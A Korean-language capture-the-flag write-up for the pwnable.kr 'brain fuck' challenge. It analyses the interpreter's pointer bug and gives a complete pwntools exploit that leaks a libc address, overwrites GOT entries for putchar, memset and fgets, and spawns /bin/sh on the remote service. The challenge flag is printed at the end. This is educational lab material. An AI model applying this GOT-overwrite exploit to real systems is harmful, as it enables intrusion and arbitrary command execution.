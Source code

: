 # _brain fuck_

**Category:** _Pwnable_

**Source:** _Pwnable.kr_

**Points:** _150_

**Author:** _galaxy(김경환)_

**Description:** 

> ![img](resource/prob.png)

## Point
- brain fuck
- got overwrite

## Write-up

1. code 분석

![main](resource/main.png)

p는 tape변수의 주소를 가지고 있습니다.

p는 전역변수입니다.

memset으로 s를 0x400만큼 초기화 합니다.

fgets로 1024만큼 input을 받습니다.

받은 input을 한 byte씩 do_brainfuck의 argument로 호출합니다.

![func](resource/do_brainfuck.png)

입력받은 값에 따라 특별한 행위를 합니다.

'>' : p가 가지고 있는 주소값을 1 증가
'<' : p가 가지고 있는 주소값을 1 감소
'+' : p가 가리키고 있는 주소에 저장된 값을 1 증가 
'-' : p가 가리키고 있는 주소에 저장된 값을 1 감소
',' : p가 가리키고 있는 주소에 값을 1byte 입력
'.' : p가 가리키고 있는 주소에 값을 1byte 출력

위의 6가지 동작이 가능합니다.
'+', '-', ',', '.' 4가지 기능으로 내가 원하는 위치에 값을 자유롭게 쓸 수 있습니다.
따라서 got 수정이 가능합니다.

2. exploit

got수정으로 system('/bin/sh') 호출을 목표로 exploit 작성

memset를 gets로 overwrite
fgets를 system으로 overwrite
-> "/bin/sh" 입력하여 system 호출 가능
got를 overwrite해야 하기 때문에 libc leak해야함
main 재호출 해야함

exploit과정은 다음과 같습니다.

putschar의 got로 p를 이동하여 address leak (같이 주어진 so파일로 libc leak 가능)

putchar의 got를 main으로 overwrite하여 '.'입력시 main 재호출

memset, fgets를 gets, system으로 overwrite

main 재호출

```python
from pwn import *

if __debug__:
	script='''b main
	c
	'''
	# p=gdb.debug('./bf',script)
	p=process('./bf')
else:
	p=remote('pwnable.kr',9001)

p.recvline()
p.recvline()

e_bf=ELF('./bf')
e_so=ELF('./bf_libc.so')

# tape=0x804a0a0
# main=0x8048671
# putchar_got=0x804a030
# memset_got=0x804a02c
# fgets_got=0x804a010
# putchar_index=0xf7e44920
# system_index=0xf7e18200
# gets_index=0xf7e422b0

tape=e_bf.symbols['tape']
main=e_bf.symbols['main']
putchar_got=e_bf.got['putchar']
memset_got=e_bf.got['memset']
fgets_got=e_bf.got['fgets']
putchar_index=e_so.symbols['putchar']
system_index=e_so.symbols['system']
gets_index=e_so.symbols['gets']

payload='.'  #set putchar got
payload+='<'*(tape-putchar_got)+'>>>.<.<.<.'    #leak putchar address
payload+=',>,>,>,<<<'	#overwrite putchar to main
payload+='<'*(putchar_got-memset_got)+',>,>,>,<<<' #overwrite memset to gets
payload+='<'*(memset_got-fgets_got)+',>,>,>,<<<'	#overwrite fgets to system
payload+='.'	#call main

p.sendline(payload)

p.recv(1)	#set putchar got
putchar_addr=int(p.recv(4).encode('hex'),16)	#leak putchar address

libc=putchar_addr-putchar_index
print('libc = '+hex(libc))
system_addr=libc+system_index
gets_addr=libc+gets_index	

p.send(p32(main))	#overwrite main
p.send(p32(gets_addr))
p.send(p32(system_addr))
p.send("/bin/sh\x00")

p.interactive()
p.close()
```



Flag : **_BrainFuck? what a weird language.._**

## References
_문제를 풀면서 도움을 받은 사이트들_

_표 또는 리스트로 작성_
